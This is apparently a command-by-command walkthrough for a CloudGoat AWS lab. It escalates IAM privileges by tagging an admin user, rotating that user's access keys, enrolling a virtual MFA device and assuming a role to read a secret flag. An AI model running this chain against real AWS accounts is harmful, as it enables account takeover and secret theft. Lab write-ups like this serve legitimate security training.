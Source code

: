 # IAM Privecs by Key Rotation Cheat Sheet

`aws configure --profile Kerrigan`

Enumerate the credentials

```bash
aws iam list-user-policies --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --profile Kerrigan
# SelfManageAccess
# TagResources

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name SelfManageAccess --profile Kerrigan

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name TagResources --profile Kerrigan
```

With the permissions we can tag and change access keys for users with the tag `developer=true`.
- Looking at the IAM users there is a developer and an admin user.
- The admin user has permissions to assume a role `cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>` which allows it to retrieve the secret flag.

```bash
aws iam tag-user --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --tags '{"Key":"developer","Value":"true"}' --profile Kerrigan

aws iam list-access-keys --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --profile Kerrigan

aws iam delete-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --access-key-id <ACCESS_KEY_ID> --profile Kerrigan

aws iam create-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --profile Kerrigan
# {
#     "AccessKey": {
#         "UserName": "admin_iam_privesc_by_key_rotation_<cloudgoat_id>",
#         "AccessKeyId": "AKIA....",
#         "Status": "Active",
#         "SecretAccessKey": "GQg+9Me8LmB+099t6....",
#         "CreateDate": "2023-09-04T19:20:02+00:00"
#     }
# }
```

With the "admin" users credentials we can assume the role it has access to...

```bash
aws configure --profile iam-admin-cloudgoat

aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --profile iam-admin-cloudgoat
# Access Denied
```

...the role can only be assumed when using multi-factor authentication

Lets create a new virtual mfa device, back in the manager user shell/profile.

```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name cloudgoat_virtual_mfa --outfile QRCode.png --bootstrap-method QRCodePNG --profile Kerrigan
# "SerialNumber": "arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa"
```

Scan the QR code in the file `QRCode.png`. For the following command put in two consecutive tokens. 

```bash
aws iam enable-mfa-device \
    --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> \
    --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa \
    --authentication-code1 <MFA Code #1> \
    --authentication-code2 <MFA Code #2> \
    --profile Kerrigan
```

Now we can assume the role since were using mfa. Switch back to the shell/profile that has the admin users credentials.

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --profile iam-admin-cloudgoat --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa --token-code <TOKEN_CODE>
# {
#     "Credentials": {
#         "AccessKeyId": "ASIA...",
#         "SecretAccessKey": "Mm8ij9L8eV.....",
#         "SessionToken": "IQoJb3JpZ2luX2VjE..................",
#         "Expiration": "2023-09-04T20:36:44+00:00"
#     },
#     "AssumedRoleUser": {
#         "AssumedRoleId": "AROAZ6IIT5XU5WXMGTWEW:cloudgoat_secret",
#         "Arn": "arn:aws:sts::0123456789:assumed-role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>/cloudgoat_secret"
#     }
# }
```

Then Add the credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[iam-admin-cloudgoat]
aws_access_key_id = ASIA....
aws_secret_access_key = Mm8ij9L8eV....
aws_session_token = IQoJb3JpZ2luX2VjE..................
```

Then retrieve the secret and secret flag using iam-admin-cloudgoat.

```bash
aws secretsmanager list-secrets --profile iam-admin-cloudgoat

aws secretsmanager get-secret-value --secret-id cg_secret_iam_privesc_by_key_rotation_<cloudgoat_id> | grep flag
# flag{...}
```
